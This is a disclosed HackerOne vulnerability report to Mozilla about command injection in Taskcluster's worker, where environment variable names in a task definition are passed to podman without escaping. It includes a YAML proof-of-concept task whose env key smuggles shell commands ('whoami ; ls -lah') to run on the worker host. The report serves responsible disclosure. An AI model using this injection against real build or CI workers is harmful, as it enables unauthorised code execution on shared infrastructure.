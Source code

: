# RCE on worker host due to unsanitized "env" variable name in task definition on community-tc.services.mozilla.com

## Report Details
- **Report ID**: 2221404
- **URL**: https://hackerone.com/reports/2221404
- **State**: Closed
- **Severity**: low
- **Submitted**: 2023-10-23T08:54:29.452Z
- **Disclosed**: 2024-12-08T11:04:29.792Z

## Reporter
- **Username**: ebrietas
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mozilla

## Vulnerability Information
## Summary:
This issue affects Taskcluster's worker code and not  just this instance but I did not see an easy way to report the vulnerability as well since I was unsure if this would qualify for the  Mozilla Client bug bounty. The task cluster definition attempts to escape parameters that are passed to the podman command prior to running the container to execute the task, the custom shell.escape function (https://github.com/taskcluster/shell/blob/master/shell.go)  is quite robust and is used on most user supplied parameters including docker image name, commands to run , and artifact path which prevents trivial command execution however it is not applied on the environment variable name itself allowing for command execution on the worker host.  Additionally, the community-tc.services.mozilla.com instance allows for any valid user to utilize an example worker group which allows for RCE on the worker host.


## Steps To Reproduce:

1. Create a github account if you do not have one and then login to https://community-tc.services.mozilla.com/ 
2. Visit https://community-tc.services.mozilla.com/tasks/create to create a new task. Copy and paste the following definition and then click the green save icon to run your task:
```yaml
retries: 0
created: '2023-10-23T08:10:11.044Z'
deadline: '2023-10-23T11:10:11.044Z'
expires: '2024-10-23T11:10:11.044Z'
taskQueueId: proj-misc/tutorial
projectId: none
tags: {}
scopes: []
payload:
  env:
# Commands to run in here
    test2 --help ; whoami ; ls -lah ;: '--help'
  image: ubuntu:latest
  command:
    - /bin/bash
    - '-c'
    - 'echo hello'
  maxRunTime: 5000
extra: {}
metadata:
  name: example-task
  description: An **example** task
  owner: name@example.com
  source: https://community-tc.services.mozilla.com/tasks/create
schedulerId: taskcluster-ui
```

{F2795414}

3. 
Wait for your task to run (it should fail) and then view the live logs to check for the output of the commands. 
{F2795415}

## Impact

## Summary:
Command execution outside of the intended container for the worker.

## Attachments
- chrome_GivgBsaNU7.png
- chrome_i6h61NCU3s.png
